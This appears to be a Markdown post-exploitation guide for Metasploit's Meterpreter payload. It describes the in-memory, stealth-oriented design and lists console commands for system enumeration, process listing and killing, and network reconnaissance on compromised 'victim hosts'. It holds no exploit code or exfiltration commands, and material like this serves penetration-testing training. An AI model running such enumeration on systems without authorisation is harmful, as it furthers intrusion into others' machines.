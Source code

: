 # Meterpreter Post-Exploitation Guide

## Overview

Meterpreter is a multi-faceted, extensible payload that uses DLL injection to ensure stable connections to victim hosts. It operates entirely in memory, making it difficult to detect with conventional forensic techniques.

### Key Design Goals
- **Stealthy**: Resides in memory, writes nothing to disk
- **Powerful**: Channelized communication, AES encryption
- **Extensible**: Modular structure, runtime feature loading

### Connection Process
1. **Target executes initial stager** (bind, reverse, etc.)
2. **Stager loads DLL** with Reflective stub
3. **Meterpreter core initializes** AES-encrypted link
4. **Extensions load** (stdapi, priv if admin rights)

## System Enumeration

### Basic Information Gathering
```bash
# System information
meterpreter > sysinfo
meterpreter > getuid
meterpreter > getpid

# Environment details
meterpreter > pwd
meterpreter > getenv
meterpreter > localtime
```

### Process Management
```bash
# List running processes
meterpreter > ps

# Process details with filtering
meterpreter > ps -S explorer.exe
meterpreter > ps -U SYSTEM

# Kill processes
meterpreter > kill <pid>
meterpreter > pkill <process_name>
```

### Network Information
```bash
# Network configuration
meterpreter > ipconfig
meterpreter > ifconfig

# Network connections
meterpreter > netstat
meterpreter > arp

# Route information
meterpreter > route
```